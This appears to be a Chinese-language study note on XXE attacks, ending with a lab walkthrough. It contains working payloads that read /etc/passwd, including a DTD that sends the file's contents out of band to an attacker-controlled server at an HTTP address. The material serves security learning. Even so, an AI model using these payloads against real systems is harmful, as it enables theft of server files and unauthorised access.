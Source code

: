 只有在DTD文件中，参数实体的声明才能引用其他实体。

参数实体只能在DTD文件中被引用，其他实体在XML文档内引用。


* Blind XXE

传统的XXE，要求攻击者只有在服务器有回显或者报错的基础上才能使用XXE漏洞来读取服务器文件，例如提交请求

	<!ENTITY file SYSTEM "file:///etc/passwd">
	<usernamne>&file;</username>

服务器在这个节点中返回etc/passwd的文件内容

	<username>root:1:3.....</username>

如果服务器没有回显，只能使用 Blind XXE漏洞来构建一条带外信道提取数据。

XXE


----------

##### [XML攻击实验](http://www.beesfun.com/2017/04/21/play%E6%B8%97%E9%80%8F%E6%A1%86%E6%9E%B6XXE%E5%AE%9E%E4%BD%93%E6%94%BB%E5%87%BB/)

0905。。通过这个实验，大概了解了XXE注入的一个流程，它引用外部实体，我们通过在外部实体中构造payload来去读取其中的敏感信息。

这个实验很好，多加练习深刻理解其中的原理。


练习的目标：读取任意文件，获取隐藏的url，利用获得的信息登入系统

	There are 2 objectives in this exercise:
	
	Get arbitrary file access
	Find the secret URL using the previous bug
	Login as the user admin using the arbitrary file access

检测是否存在XXE，一是是否解析XML文件，而是是否可以引用外部实体。


请求一下外部实体

![](https://image-1258195556.cos.ap-shanghai.myqcloud.com/qiniu/17-9-5/63739933.jpg)

外部实体的日志信息

![](https://image-1258195556.cos.ap-shanghai.myqcloud.com/qiniu/17-9-5/81480846.jpg)

通过找本地服务器的监听内容，表明目标服务器会解析XML内容，并发出了外部实体请求。

* 任意文件读取

目标服务器会请求外部实体，那么可以在自己的本地服务器写一个payload，test.dtd文件，返回给目标服务器。


	  1 <!ENTITY % p1 SYSTEM "file:///etc/passwd">
	  2 <!ENTITY % p2 "<!ENTITY e1 SYSTEM 'http://192.168.145.225:8000/BLAH?%p1;'>">
	  3 %p2;

